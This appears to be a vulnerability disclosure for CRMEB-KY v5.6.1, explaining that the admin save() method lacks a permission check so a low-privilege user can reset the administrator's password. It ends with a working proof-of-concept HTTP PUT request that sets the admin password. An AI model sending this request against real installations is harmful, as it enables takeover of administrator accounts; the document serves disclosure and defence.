 # Vendor

crmeb

# Product

CRMEB-KY

# version

v5.6.1

# Download 

https://github.com/crmeb/CRMEB

# Vulnerability

Low permission users can reset administrator password

# Description

As you can see from the code, the save method receives a $id and a $data array containing the new data. It first gets administrator information from the database based on $id, and then, if the pwd field is included in $data, it updates the administrator's password. 
This code itself does not check whether the current operator has permission to modify the target user ($id)

# Analysis

Locating the Vulnerable Interface.The request provided by the user is PUT /adminapi/setting/admin/1. According to RESTful API design standards and the project structure, this request typically routes to the update method of SystemAdminController, which is used to update the information of the administrator with ID 1.

The update method calls the save() method in app/services/system/admin/SystemAdminServices.php to perform the actual update operation. Let’s review the key code of the save() method:

<img width="576" height="423" alt="image" src="https://github.com/user-attachments/assets/08d5eba1-6030-4645-85ae-285192b02bc5" />

Recurrence of vulnerabilities:

Log in to the low-privilege account test:

<img width="1616" height="986" alt="image" src="https://github.com/user-attachments/assets/aeb2202f-a840-4266-a826-07fae7d3a7c3" />

Successfully changed admin's password to 1234567

<img width="1028" height="486" alt="image" src="https://github.com/user-attachments/assets/b66cbaed-a14e-4dc2-837c-8ed38ec37794" />


# POC
```
PUT /adminapi/setting/admin/1 HTTP/1.1
Host: 127.0.0.1:81
Content-Length: 99
Content-Type: application/json;charset=UTF-8
Authori-zation: XXX
Connection: keep-alive

{"account":"admin","pwd":"1234567","conf_pwd":"1234567","real_name":"admin","roles":[1],"status":1}

```
